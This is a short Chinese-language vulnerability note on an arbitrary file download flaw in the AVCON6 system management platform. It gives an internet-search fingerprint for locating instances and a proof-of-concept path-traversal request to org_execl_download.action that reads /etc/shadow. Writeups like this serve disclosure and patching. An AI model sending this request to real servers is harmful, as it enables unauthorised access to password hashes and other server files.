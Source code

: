 # 

# AVCON6 系统管理平台 org_execl_download.action 任意文件下载漏洞

## 漏洞描述

AVCON6 系统管理平台 org_execl_download.action存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器任意文件

## 漏洞影响

```
AVCON6 系统管理平台
```

## 网络测绘

```
app="AVCON-6"
```

## 漏洞复现

登录页面

![img](./images/202202101910822.png)

验证POC

```php
/org_execl_download.action?filename=../../../../../../../../../../../../../etc/shadow
```

![img](./images/202202101910818.png)
